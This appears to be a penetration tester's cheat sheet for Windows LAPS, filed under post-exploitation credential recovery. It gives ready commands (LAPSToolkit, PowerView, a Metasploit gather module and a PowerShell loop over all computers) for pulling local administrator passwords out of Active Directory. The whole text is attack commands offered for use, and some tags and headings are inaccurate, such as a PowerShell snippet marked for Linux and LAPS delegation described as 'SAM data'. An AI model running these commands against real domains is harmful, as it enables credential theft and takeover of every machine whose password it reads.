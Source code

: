 # LAPS

% laps, password

## get laps passwords
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER  
```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
```

## get laps computer list
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

## find the list of group who can manipulate SAM data
```powershell
Import-Module .\LAPSToolkit.ps1
Find-LAPSDelegatedGroups
```

## powerview get laps password
```powershell
Get-DomainObject <computer> -Properties "ms-mcs-AdmPwd",name
```

## metasploit get laps password
```
use windows/gather/credentials/enum_laps
```

## get all machine passwords
#platform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
